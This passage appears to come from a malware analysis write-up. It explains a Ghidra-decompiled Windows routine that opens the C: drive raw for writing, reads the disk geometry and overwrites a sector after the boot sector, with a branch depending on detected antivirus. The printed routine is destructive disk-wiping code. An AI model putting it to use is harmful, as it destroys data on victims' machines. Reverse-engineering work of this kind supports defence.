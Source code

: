 The first thing we see in this function is that `C:` drive is opened as a file with `0x40000000` meaning `GENERIC_WRITE`. If this handle was succesfully obtained a call is made to [DeviceIoControl](https://docs.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol), this function directly sends a control code to the specified device driver. In this case we see that the control code being sent is `0x70000`. We [figure out](http://www.ioctls.net/) that this means [IOCTL_DISK_GET_DRIVE_GEOMETRY](https://docs.microsoft.com/en-us/windows/win32/api/winioctl/ni-winioctl-ioctl_disk_get_drive_geometry). As per the MSDN docs this returns:

> Retrieves information about the physical disk's geometry: type, number of cylinders, tracks per cylinder, sectors per track, and bytes per sector.

The result of this call is stored in `local_20` and the total number of returned bytes is stored in `local_24`. Next we see a buffer being allocated for `10 * local_c` bytes and with the `0` flags which means `LMEM_FIXED` here. This variable however does not have a value as far as we can tell. This might be because `local_24`, `local_20` and `local_c` are supposed to represent the same structure but were not recognized as such by Ghidra as `local_20` has an undefined type.

Next we see a call to [SetFilePointer](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfilepointer). This subroutine call moves the given file pointer, the distance to move by is `local_c`.

We now realize something. `DeviceIoControl` was called with buffer `local_20`, this buffer has size `20` but is indicated to have size `0x18` which is `24`. A `DWORD` however has `4` bytes. This means that `local_20` and `local_c` most likely refer to the same memory block. However `local_c` got singled out due to being used as a `DWORD` later on. All in all this means that `local_c` contains the last `DWORD` returned by `IOCTL_DISK_GET_DRIVE_GEOMETRY IOCTL`. Some more searching reveals the type of `local_20` and `local_c` this being the [DISK_GEOMETRY](https://docs.microsoft.com/en-us/windows/win32/api/winioctl/ns-winioctl-disk_geometry) structure. Retyping the local variables massively cleans up the decompilation.

```cpp
void FUN_10008d5a(void){
  HANDLE hDevice;
  BOOL BVar1;
  HLOCAL lpBuffer;
  int iVar2;
  DWORD geo_size;
  DISK_GEOMETRY local_20;
  
  hDevice = CreateFileA("\\\\.\\C:",0x40000000,3,(LPSECURITY_ATTRIBUTES)0x0,3,0,(HANDLE)0x0);
  if (hDevice != (HANDLE)0x0) {
    BVar1 = DeviceIoControl(hDevice,0x70000,(LPVOID)0x0,0,&local_20,0x18,&geo_size,(LPOVERLAPPED)0x0
                           );
    if ((BVar1 != 0) &&
       (lpBuffer = LocalAlloc(0,local_20.BytesPerSector * 10), lpBuffer != (HLOCAL)0x0)) {
      SetFilePointer(hDevice,local_20.BytesPerSector,(PLONG)0x0,0);
      WriteFile(hDevice,lpBuffer,local_20.BytesPerSector,&geo_size,(LPOVERLAPPED)0x0);
      LocalFree(lpBuffer);
    }
    CloseHandle(hDevice);
  }
  if (((detected_anti_virus & 8) != 0) && (iVar2 = FUN_100014a9(), iVar2 == 0)) {
    return;
  }
  FUN_10008cbf();
  return;
}
```
